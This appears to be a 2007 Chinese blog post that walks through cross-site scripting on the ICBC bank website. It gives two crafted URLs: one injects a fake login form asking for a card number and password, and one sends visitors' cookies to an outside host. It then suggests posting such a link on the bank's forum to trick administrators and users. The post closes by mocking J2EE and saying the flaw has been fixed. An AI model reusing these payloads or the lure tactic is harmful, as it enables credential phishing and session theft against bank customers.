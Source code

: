 ---
created: 2007-01-08 15:10:12
creator: eishn
description: '严正申明: 经过寻找, 我终于找到了这个漏洞最初的发现者谢先明先生, 这是一位非常善良的技术人员, 请大家支持他的博客。预知整件事情的来龙去脉请访问
  http://blog.csdn.net/hcat1999/archive/2006/12/31/1470770.aspx 。本文纯属借题发挥。'
title: 沈崴手把手教你如何获取别人工行银行卡
---
<h1>沈崴手把手教你如何获取别人工行银行卡</h1>
<a href="http://eishn.plonespace.net/images/icbc.jpg"><img src="http://eishn.plonespace.net/images/icbc.jpg/image_preview" /></a><br /><br /><br />伪造页面 (同事老庄友情提供)<br /><div>http://www.icbc.com.cn/news/hotspot.jsp?column=%B1%BE%D0%D0%BC%B4%BD%AB%C6%C6%B2%FA%A3%AC%C7%EB%C1%A2%BF%CC%B5%C7%C2%BD%D7%AA%D2%C6%C4%FA%B5%C4%B2%C6%B2%FA%3Cbr%3E%B9%A4%C9%CC%D2%F8%D0%D0%BF%A8%BA%C5%A3%BA%3Cinput%20name=a%20/%3E%3Cbr%3E%C4%FA%B5%C4%C3%DC%C2%EB:%3Cinput%20name=e/%3E%3Cbr%3E%3Cinput%20type=button%20value=%B5%C7%C2%BD%3E</div><br />直接发送跳板帐号 (不要有任何侥幸心理了)<br /><div>http://www.icbc.com.cn/news/hotspot.jsp?column=%3Cscript%3Ewindow.location='http://127.0.0.1/crack/'%2BencodeURIComponent(document.cookie)%3C/script%3E</div><br />下一步<br /><br />接下来呢?  我们就该到工行的 <a href="http://https//service.icbc.com.cn/bbs/index.jsp" target="_blank">网上论坛</a> 向管理员和各位用户发表一下我的见解了。当然, 得更隐蔽些。<br /><br />    "管理员啊, 网站上的这个说明是什么意思啊 http://www.icbc.com.cn/icbcmodule/thirdindex.jsp?column=%XXX..."<br /><br />还记得上一篇<a href="blog/static/6523182006112724052272/" target="_blank">《沈崴手把手教你获得别人网易博客权限》</a>的文章吗? 有很多共通之处, 可供参考。<br /><br />我的申明<br /><br />事实上, 我并不是所谓的骇客, 我只是每当看到没有技术含量的东西绝不放弃冷嘲热讽的机会, 比如 "J2EE"。多少关键业务在使用这些低效的技术? 多少学生被这些买办误导和愚弄? 我就是要拆穿这些过时技术的谎言, 只要你一天没有结束和内存泄露、永无休止的 XML 配置以及设计模式软件工程的搏斗, 依然跟着国内所谓的 Win32 专家亦步亦趋, 你永远没有时间来提高你的软件的安全性。<br /><br />在 Plone 下, 你有机会写出不安全的程序吗? 你不妨试试。<br /><br />最后我想告诉所有有志于此道的小屁孩一个坏消息, 某人已经将问题向工行网站反映, 工行迅速作出了修复, 请勿以身试法。<br />
